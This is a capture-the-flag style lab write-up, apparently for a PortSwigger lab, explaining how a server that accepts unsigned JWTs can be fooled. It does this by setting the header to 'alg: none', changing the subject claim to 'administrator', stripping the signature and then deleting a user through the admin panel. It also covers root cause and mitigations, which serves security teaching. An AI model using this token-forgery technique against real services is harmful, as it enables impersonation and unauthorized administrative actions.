



# Bypassing JWT Signature Verification via Algorithm Manipulation

## Lab Information

**Classification:** JWT Attacks  
**Difficulty:** Apprentice  
**Lab URL:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

---

## Objective

Leverage a JWT implementation flaw where the application accepts unsigned tokens (`alg: none`). Modify the token to impersonate the administrator account, access the admin dashboard, and delete the user `carlos`.

---

## Vulnerability Analysis

While the application uses JWTs to manage authentication, it contains a vulnerability where it trusts tokens that declare their signing algorithm as `none`. 

This allows an attacker to:

- Strip out the cryptographic signature completely.
- Alter payload claims.
- Forge administrative permissions.
- Bypass access controls.

---

## Exploitation Steps

### 1. Authentic Session Generation

Log in with the following credentials:

```text
Username: wiener
Password: peter
```

Navigate to the account dashboard and capture the HTTP request containing the JWT session cookie.

---

### 2. Probing Administrative Routes

Forward the captured request to Burp Repeater. Change the request path:

```http
GET /admin HTTP/2
```

Send the request. The server rejects it with a:

```http
401 Unauthorized
```

indicating that the current session lacks administrative rights.

### Screenshot



---

### 3. Editing the Payload

Open the JWT editor. Locate the payload:

```json
{
  "sub": "wiener"
}
```

Modify the subject claim to target the administrative user:

```json
{
  "sub": "administrator"
}
```

Save these changes.

---

### 4. Modifying the Algorithm Header

Locate the JWT header:

```json
{
  "alg": "RS256"
}
```

Modify the algorithm field to indicate that no signature is present:

```json
{
  "alg": "none"
}
```

Save these changes.

---

### 5. Stripping the Cryptographic Signature

A JWT is formatted as:

```text
HEADER.PAYLOAD.SIGNATURE
```

Remove the third part (the signature) completely, but make sure to retain the trailing dot:

```text
HEADER.PAYLOAD.
```

This creates an unsigned JWT that the vulnerable server will accept.

---

### 6. Requesting the Admin Area

Submit the modified request again. The backend grants access to the admin dashboard because it processes the unsigned token.

### Screenshot



---

### 7. Deleting Carlos

Target the administrative user deletion endpoint:

```http
/admin/delete?username=carlos
```

Submit the request using the forged administrator JWT. The user account is deleted.

### Screenshot



---

### 8. Confirming Resolution

After deleting `carlos`, the challenge is marked as solved.

### Screenshot


---

## Root Cause Analysis

The backend server accepts JWTs that specify:

```json
{
  "alg": "none"
}
```

in their header, neglecting to enforce a cryptographic signature check. This design flaw allows attackers to modify claims like:

```json
{
  "sub": "administrator"
}
```

and submit them without a signature.

---

## Impact Assessment

An attacker can exploit this flaw to:

- Impersonate any user in the system.
- Escalate privileges to administrator.
- Gain access to restricted functionalities.
- Bypass access controls.
- Perform unauthorized administrative operations.

---

## Mitigation and Remediation

1. Never allow the `none` algorithm to be accepted in production environments.
2. Enforce strict JWT signature verification.
3. Establish an allowlist of approved signing algorithms.
4. Reject unsigned JWTs.
5. Perform independent, server-side authorization checks.

---

## Key Takeaways

JWT security depends on proper signature verification. Accepting unsigned tokens (`alg: none`) allows attackers to forge arbitrary identities and completely bypass authentication controls.